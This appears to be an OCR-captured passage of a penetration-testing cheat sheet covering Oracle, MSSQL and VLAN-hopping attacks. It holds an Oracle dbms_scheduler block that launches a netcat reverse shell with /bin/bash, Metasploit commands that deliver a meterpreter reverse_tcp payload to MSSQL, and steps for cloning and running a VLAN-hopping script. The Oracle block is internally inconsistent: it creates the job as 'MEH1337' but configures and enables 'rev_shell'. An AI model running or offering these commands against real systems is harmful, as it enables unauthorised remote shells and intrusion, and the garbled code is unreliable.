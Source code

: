 # You should have a DBA user with creds user1 and pass1.
# Verify you have DBA privileges by re-running the first command again.
# Remove the exploit using:
drop index exploit_1337; 

# Get Oracle Reverse os-shell:
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 



# MSSQL
=======
# Enumeration / Discovery:
# Nmap:
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156

# Metasploit:
msf > use auxiliary/scanner/mssql/mssql_ping

# Bruteforce MSSQL Login
msf > use auxiliary/admin/mssql/mssql_enum

# Metasploit MSSQL Shell
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp



# VLAN Hopping
==============
# Using NCCGroups VLAN wrapper script for Yersina simplifies the process.
git clone https://github.com/nccgroup/vlan-hopping.git
chmod 700 frogger.sh
./frogger.sh 
